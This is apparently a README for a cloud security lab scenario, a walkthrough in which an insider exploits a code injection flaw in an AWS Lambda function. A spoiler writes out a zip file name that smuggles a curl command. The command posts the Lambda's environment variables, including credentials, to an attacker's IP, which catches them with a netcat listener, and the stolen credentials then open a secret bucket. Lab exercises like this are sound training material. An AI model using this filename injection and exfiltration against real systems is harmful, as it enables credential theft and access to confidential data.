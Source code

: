 # Code Injection
Starting as restricted insider Bob, you can list Lambda functions. Upon close(r) inspection you find a vulnerability in the code which you can exploit to elevate your rights.
With the elevated rights you have access to a secret bucket storing confidential information.

## Attack procedure
<details><summary>The steps to take</summary>

1. As user Bob, you can get the list of Lambda functions in the AWS account by running `aws lambda list-functions`.
2. Discover the `fc-vuln` function and get its code by issuing `aws lambda get-function --function-name [function name]`.
3. Once you inspect the code, you discover a remote code execution vulnerability.
4. Discover that Bob actually has write permissions to the Lambda S3 bucket.
5. Upload a `.zip` file which posts the Lambda's environment variables to an evil server.
    <details><summary>Spoiler</summary>
    
    1. Prepare the file `touch 'hello;curl -X POST -d "`env`" [your public reachable IP];.zip'`
    2. run `nc -nlvp` on your evil machine
    3. upload the file to the bucket
    </details>
6. Receive the posted ENV variable on your evil machine and configure the AWS credentials in the AWS CLI.
7. Discover that these credentials have access to the secret bucket.
8. Get secrets.

</details>
